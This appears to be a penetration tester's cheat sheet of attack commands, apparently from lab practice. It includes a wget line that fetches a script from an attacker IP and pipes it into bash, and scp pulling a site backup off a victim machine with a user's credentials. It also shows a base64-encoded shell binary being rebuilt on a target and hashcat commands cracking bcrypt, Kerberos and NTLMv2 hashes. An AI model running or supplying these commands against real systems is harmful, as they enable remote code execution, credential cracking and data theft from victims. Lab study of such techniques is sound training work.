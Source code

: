 ### wget
```bash
# Download a file and execute it
wget -O - http://192.168.45.175:443/lse.sh | bash
```

### SCP
```bash
# on our kali attack machine, we're using victim machine's user stuart username and password!
scp stuart@192.168.250.144:/opt/backup/sitebackup3.zip sitebackup3.zip 
stuart@192.168.250.144's password: 

scp linenum.sh user@remotehost:/tmp/linenum.sh
```

### base64
```bash
# first get the encrypted value of the shell file
base64 shell -w 0
# revert it back to shell file..!
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell



```

### Python
```bash
# When encoding characters;
python3 -c 'import urllib.parse; original_string = "\n"; url_encoded_string = urllib.parse.quote(original_string); print(url_encoded_string);'
%0A
```

### Hashcat
```bash
# $2a: 3200
($2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS)
hashcat -m 3200 dora /usr/share/wordlists/rockyou.txt --force

# search for mode
hashcat -h | grep -i "kerberos"

# TGS-REP
hashcat -m 13100 mssql /usr/share/wordlists/rockyou.txt --force

# NTLMv2
hashcat -m 5600 thecybergeek /usr/share/wordlists/rockyou.txt --force

```
